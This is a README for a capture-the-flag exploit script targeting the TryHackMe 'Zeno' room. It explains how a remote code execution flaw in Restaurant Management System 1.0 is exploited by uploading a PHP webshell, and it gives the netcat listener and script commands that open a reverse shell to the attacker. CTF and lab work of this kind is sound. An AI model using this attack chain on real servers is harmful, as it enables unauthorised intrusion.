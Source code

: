 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: TryHackMe
* **Challenge**&nbsp;: Zeno
* **Difficulty**&nbsp;&nbsp;: Medium
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)

## Description:
This script exploit a **Remote Code Execution** vulnerability is **Restaurant Management System 1.0**, by running a reverse shell script on the target server in order to get an initial foothold on the machine as the user running the vulnerable web application. <br/>
This works by uploading a PHP webshell via the endpoint `/rms/admin/foods-exec.php`. Subsequently, this uploaded webshell located at `/rms/images/` is utilized to execute OS commands on the server.

## Reference:
[+] [https://nvd.nist.gov/vuln/detail/CVE-2019-18417](https://nvd.nist.gov/vuln/detail/CVE-2019-18417)

## Usage:
```bash
# Start a netcat listener on port 'netcat_port':
$ nc -nlvp $netcat_port
# Run the script: 
$ python3 rms-rce.py target_IP target_port target_uri local_ip netcat_port
```

## Example:
```bash
$ nc -nlvp 9999
$ python3 rms-rce.py zeno.thm 12340 /rms/ 10.8.16.233 9999
```
![2023-09-14 20_34_07-KaliLinux - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/84abeea1-f493-4d12-942c-d3f47cde6b7f)
